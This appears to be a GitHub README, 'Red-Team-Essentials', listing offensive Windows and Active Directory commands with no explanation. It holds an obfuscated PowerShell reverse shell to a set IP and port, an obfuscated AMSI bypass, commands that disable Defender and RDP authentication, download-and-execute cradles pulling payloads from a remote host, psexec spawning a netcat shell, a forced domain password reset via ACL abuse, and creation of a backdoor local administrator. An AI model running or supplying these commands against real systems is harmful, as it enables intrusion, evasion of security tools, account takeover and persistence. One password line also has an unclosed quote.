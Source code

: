 # Red-Team-Essentials

#Disable Defender 



Set-MpPreference -DisableRealtimeMonitoring $true

#Fore-Change PAssword - generic All 


Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja
Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja
$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force
Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass


#Powershell Reverse Shell one Liner (AMSI Bypass)


$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()

#Powershell Download in V4 and V5

 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 
 #psexec 
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 
#Check Powershell Version 

 $PSVersionTable.PSVersion

#Download File Powershell V2 

(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 

#Download Execute Powershell One Liner 

powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')

#AMSI Bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 
 #Remote desktop login through domain user credentials 
 
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 
 #Download Execute powershell
 
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 
 #Pivoting using sshutle when you have rsa keys 
 
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24


 #Adding user on windows cmd line & adding it to local admin group 
 
net user hexninja lolbr654$@123 /ADD

net localgroup administrators hexninja /ADD

